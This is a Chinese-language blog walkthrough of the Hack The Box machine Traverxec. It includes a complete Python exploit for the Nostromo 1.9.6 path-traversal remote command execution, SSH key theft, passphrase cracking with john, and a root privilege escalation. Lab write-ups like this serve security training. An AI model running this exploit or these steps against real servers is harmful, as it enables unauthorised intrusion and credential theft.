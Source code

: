 ```yaml
---
title: Hack The Box - Traverxec の Write-Up
date: 2019-12-17 19:15:47
categories:
- WriteUPs
- Hack The Box
tags:
- Web
---
```

## 前言

Hack The Box是一个非常完备的渗透测试训练靶场，比较接近于实战，许多机器存在不小的难度。不过美中不足的一是会员价格太贵，二是需要通过VPN接入实验网络，然而国内连接实在是有点慢，特别是晚上网络高峰期，各种连接失败不在话下。

这两天玩了[Traverxec](https://www.hackthebox.eu/home/machines/profile/217)这台靶机，相较而言是一个很简单的机器了，但是也学到了不少东西。

![](/img/Traverxec/Traverxec1.png)

<!-- more -->

## Step 1：扫描

第一步当然是常规的Nmap扫描：

![](/img/Traverxec/Traverxec2.png)

可以看到靶机只开放了22和80两个端口。

## Step 2：渗透

从Nmap扫描结果来看80端口开放的是Nostromo 1.9.6服务，网站页面本身并不能找到什么可以利用的漏洞。

![](/img/Traverxec/Traverxec3.png)

emmm，David是个信息点。

Web界面上找不到什么好玩的东西了，既然我们有了Nostromo的具体版本号，那就去搜索一下有没有可以利用的漏洞：

![](/img/Traverxec/Traverxec4.png)

不搜不知道，一搜吓一跳，第一条就是最喜欢的远程命令执行漏洞。下面给出EXP：

```Python
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

运行脚本即可获得反弹shell：

![](/img/Traverxec/Traverxec5.png)

![](/img/Traverxec/Traverxec6.png)

显然得到的是一个非交互shell，通过熟悉的命令可得到交互式shell，不熟悉的可以去看我之前DC系列靶机的Write-Ups。

## Step 3：突破

此时在目录下可以找到Nostromo服务的配置文件：

![](/img/Traverxec/Traverxec7.png)

在配置文件中发现存在Public文件夹public_www。但是尝试进入/home/david文件夹后提示权限禁止。

![](/img/Traverxec/Traverxec8.png)

于是不管这一层，直接进入public_www文件夹：

![](/img/Traverxec/Traverxec9.png)

果然在这个文件夹里发现了好东西，看名字就是ssh的登录凭证，后面的思路一下就有了。但是有个问题，怎么把这个文件下载到本地呢？

![](/img/Traverxec/Traverxec10.png)

![](/img/Traverxec/Traverxec11.png)

巧妙的通过base方法即可实现该文件的下载，快拿小本本记一下。解压这个文件，果然是ssh登录凭证。

![](/img/Traverxec/Traverxec12.png)

但是尝试通过这个凭证登录时提示需要使用凭证的密码，这时候只有通过john工具来暴力破解了。[这里](https://blog.csdn.net/qq_40490088/article/details/97812715)对这种方法有详细的解释。

![](/img/Traverxec/Traverxec13.png)

![](/img/Traverxec/Traverxec14.png)

![](/img/Traverxec/Traverxec15.png)

这样我们就得到了ssh凭证的密码：hunter。结合Web页面得到的david信息点，我们通过ssh登录靶机：

![](/img/Traverxec/Traverxec16.png)

## Step 4：提权

我们已经以david的身份登录了靶机，下一步就是尝试提权获取靶机root权限。在当前文件夹下发现一个奇怪的目录bin，进去之后看到一个服务的脚本，好奇心促使我看了一眼：

![](/img/Traverxec/Traverxec17.png)

果然有猫腻，这个服务居然有root权限。ok，轻松提权：

![](/img/Traverxec/Traverxec18.png)

至此，这个靶机算是完全被我们掌控。